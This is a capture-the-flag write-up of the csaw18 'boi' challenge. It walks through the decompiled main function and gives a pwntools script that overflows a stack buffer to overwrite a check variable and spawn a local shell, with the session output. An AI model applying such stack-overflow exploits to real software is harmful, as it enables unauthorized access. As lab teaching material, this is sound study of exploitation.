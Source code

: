 # csaw18_boi

[Link to
binary](https://github.com/guyinatuxedo/nightmare/raw/master/modules/04-bof_variable/csaw18_boi/boi)

---

```
~/Downloads > ./boi 
Are you a big boiiiii??
you bet
Sat Sep 18 08:51:12 PM CEST 2021
```

This challenge looks similar to the past ones: a prompt that asks for input. The
challenge description says this is solved by smashing the stack.

Let's take a look at main:

```
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 local_38;
  undefined8 local_30;
  undefined4 uStack40;
  uint iStack36;
  undefined4 local_20;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 40);
  local_38 = 0;
  local_30 = 0;
  local_20 = 0;
  uStack40 = 0;
  iStack36 = 3735928559;
  puts("Are you a big boiiiii??");
  read(0,&local_38,24);
  if (iStack36 == 0xcaf3baee) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (canary != *(long *)(in_FS_OFFSET + 40)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Ok so if we can figure out how to make `iStack36` be equal to `0xcaf3baee` then we'll get access to a shell and the challenge is solved.

You can see that the binary reads 24 bytes and stores them in the stack starting from `local_38`. But that is only 8 bytes. So `local_30` takes up another 8 bytes. Then `uStack40` takes 4. And then we have our target variable `iStack36` taking up the remaining 4.

Can we craft a 24 bytes input which puts the last 4 bytes inside `iStack36`? Yes it's very straightforward. Here's a Python script that does that:

```python
from pwn import *

p = process("./boi")

p.sendline(20 * b" " + bytes.fromhex("caf3baee")[::-1])
p.interactive()
```

The `[::-1]` I added simply because it didn't work without it so I figured it
could be an endianness issue, and it was because reversing the bytes solved it.

```
~/Downloads > python pwn_boi.py 
[+] Starting local process './boi': pid 19183
[*] Switching to interactive mode
Are you a big boiiiii??
$ whoami
elia
```
